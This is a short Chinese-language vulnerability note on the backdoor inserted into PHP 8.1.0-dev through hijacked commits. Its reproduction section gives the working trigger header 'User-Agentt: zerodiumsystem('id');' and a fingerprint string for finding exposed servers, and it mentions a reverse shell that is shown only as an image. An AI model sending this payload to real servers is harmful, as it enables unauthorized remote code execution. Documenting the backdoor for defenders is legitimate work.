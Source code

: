# 

# PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

```
PHP 8.1.0-dev
```

## 网络测绘

```
"PHP/8.1.0-dev"
```

## 漏洞复现

后门为添加请求头

```plain
User-Agentt: zerodiumsystem('id');
```

- 是 User-Agentt 不是 User-Agent



![](./images/202202091309632.png)

反弹shell

![](./images/202202091310034.png)
